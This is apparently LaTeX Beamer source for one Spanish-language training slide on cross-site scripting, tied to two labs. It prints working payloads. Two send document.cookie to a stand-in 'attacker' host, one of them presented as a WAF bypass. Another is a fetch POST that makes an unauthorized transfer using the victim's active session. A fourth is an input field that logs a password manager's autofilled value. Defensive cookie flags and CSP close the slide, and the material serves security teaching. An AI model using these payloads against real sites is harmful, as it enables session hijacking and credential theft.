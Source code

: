 \documentclass[aspectratio=169,10pt]{beamer}
\newcommand{\cmdbox}[1]{%
  \begin{center}%
  {\setlength{\fboxsep}{6pt}\colorbox{uzlav!40}{\parbox{0.88\linewidth}{\ttfamily\footnotesize #1}}}%
  \end{center}}
\begin{document}
\begin{frame}[allowframebreaks]{XSS --- Session Hijacking y captura de credenciales}
\small
  \begin{itemize}
  \item Cross-Site Scripting (XSS)
  \item Session Hijacking --- robo de cookies (Lab 47)
  \item[] \cmdbox{\textless{}script\textgreater{}\\{}
new Image().src='https://attacker/steal?c='+encodeURIComponent(document.cookie);\\{}
\textless{}/script\textgreater{}}
  \item Alternativa sin fetch (bypassa algunos WAF)
  \item[] \cmdbox{\textless{}img src=x onerror=\textquotedbl{}this.src='https://attacker/c?'+document.cookie\textquotedbl{}\textgreater{}}
  \item HttpOnly --- mitigación y límites
  \item Cookies con HttpOnly: document.cookie no las expone
  \item Bypass: no se roba la cookie, pero se usa la sesión activa:
  \item[] \cmdbox{fetch('/transfer',\{method:'POST',credentials:'include',\\{}
body:'amount=9999\&to=attacker',\\{}
headers:\{'Content-Type':'application/x-www-form-urlencoded'\}\})}
  \item Captura de contraseñas con gestor (Lab 48)
  \item[] \cmdbox{\textless{}input name=username\textgreater{} \textless{}!-- gestor de contraseñas rellena --\textgreater{}\\{}
\textless{}input type=password name=password\\{}
onchange=\textquotedbl{}fetch('/log?p='+this.value)\textquotedbl{}\textgreater{}}
  \item Defensa
  \item HttpOnly + Secure + SameSite=Strict en cookies
  \item CSP: script-src 'nonce-...' (sin unsafe-inline)
  \end{itemize}
\end{frame}
\end{document}
